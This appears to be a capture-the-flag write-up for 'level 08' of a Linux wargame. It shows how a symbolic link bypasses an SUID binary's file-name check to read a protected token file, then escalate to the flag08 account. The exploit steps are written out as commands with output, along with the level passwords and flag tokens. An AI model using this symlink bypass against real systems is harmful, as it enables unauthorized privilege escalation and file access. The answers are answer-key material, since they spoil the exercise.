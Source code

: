 # LEVEL 08

> [!TIP]
> user: `level08` <br>
> pass: `fiumuikeil55xe9cu4dood66h`

## STEP 01

An `ls` on the home of level08, we can see that we have:
1. a binary **level08** with SUID and owned by **flag08**
2. a **token** file owned by **flag08** and only readable for the owner

A little execution of the binary show us that the it will try to read a file

```bash
./level08
#./level08 [file to read]
```

As we provide the **token** file, the binary, after checking with a `strstr`,
gently refuse the acces to it.
```bash
ltrace ./level08 ./token
#__libc_start_main(0x8048554, 2, 0xbffff6c4, 0x80486b0, 0x8048720 <unfinished ...>
#strstr("./token", "token")                                 = "token"
#printf("You may not access '%s'\n", "./token"You may not access './token'
#)             = 29
#exit(1 <unfinished ...>
#+++ exited (status 1) +++
```

> [!NOTE]
> so our threat here is that the binary only check for the **literal** file name

> [!TIP]
> A way of doing it is to create a symoblic link that point to the **token** file
> <br><br>
> Executing the following command will give you the password of flag08
>
> ```bash
> ln -s ${PWD}/token /tmp/f; ${HOME}/level08 /tmp/f
> #quif5eloekouj29ke0vouxean
> su flag08
> #Password:
> #Don't forget to launch getflag !
> getflag
> #Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
> ```

> [!IMPORTANT]
> the password for the next level is `25749xKZ8L7DkSCwJkT9dyv6f`
